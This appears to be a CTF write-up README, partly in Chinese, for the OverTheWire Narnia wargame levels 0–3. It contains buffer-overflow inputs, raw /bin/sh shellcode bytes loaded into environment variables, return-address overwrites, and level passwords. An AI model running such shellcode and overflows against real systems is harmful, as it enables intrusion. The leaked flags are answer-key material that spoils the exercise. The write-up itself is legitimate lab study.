 wargame-narnia
==============
* ssh addr: narnia0@narnia.labs.overthewire.org
* url: http://overthewire.org/wargames/narnia/

> --[ Tips ]--   
>
> This machine has a 64bit processor and many security-features enabled  
> by default, although ASLR has been switched off.  The following  
> compiler flags might be interesting:  
>     -m32                    compile for 32bit  
>     -fno-stack-protector    disable ProPolice  
>     -Wl,-z,norelro          disable relro   
> 
> In addition, the execstack tool can be used to flag the stack as  
> executable on ELF binaries.  
> Finally, network-access is limited for most levels by a local firewall.  

##测试 shellcode:
[shellcodetest.c](./shellcodetest.c)

gcc -fno-stack-protector -z execstack -m32  shellcodetest.c -o shellcodetest 

##生成 shellcode
1. 写出 xxx.asm
2. `nasm -f elf32 xxx.asm -o xxx.o`
3. `ld -m elf_i386 -o xxx xxx.o`
4. `objdump -d xxx` 从输出中获得 shellcode
   当然也可以写个工具提取
5. 考虑一下让`.text`段可写? `objcopy --writable-text -O elf32-i386 xxx xxx1` 似乎没有作用...

##更改的系统值存档
* `/proc/sys/kernel/randomize_va_space` = 2

####narnia0
flag: narnia0

####narnia1
flag: efeidiedae

[narnia0.c](./narnia0.c)

需要覆盖`val`变量, 注意管道关闭后程序也会随着关闭因此需要用 `cat` 继续向程序传递内容

```shell
$ (python -c "print('aaaaaaaaaaaaaaaaaaaa\xef\xbe\xad\xde')"; cat) | /narnia/narnia0
# 进入 sh 后执行
$ cat /etc/narnia_pass/narnia1
```

####narnia2
flag: nairiepecu

[narnia1.c](./narnia1.c)

程序直接把环境变量 `$EGG` 的内容当成函数执行了，所以要在 `$EGG` 中插入程序。

这次需要真正的 shellcode 了, shellcode 见 `shell.asm`, 将生成的 shellcode 导入 EGG 变量, 直接执行 `./narnia2` 即可.

shellcode: [shell.asm](./shell.asm)

```shell
$ export EGG=$(python -c "print('\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x58\x41\x41\x41\x41\x42\x42\x42\x42')")
$ ./narnia2
```

####narnia3

[narnia2.c](./narnia2.c)

查看环境变量地址: `(gdb) x/s *((char **)environ + 1)`， 结果：`0xffffd8a1:     "XDG_SESSION_ID=76296"`

```shellj
$ export XDG_SESSION_ID=$(python -c "print('\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x58\x41\x41\x41\x41\x42\x42\x42\x42')")
```

```shell
./narnia2 $(python -c "print('a' * 140 + '\x55\xd8\xff\xff')")
```
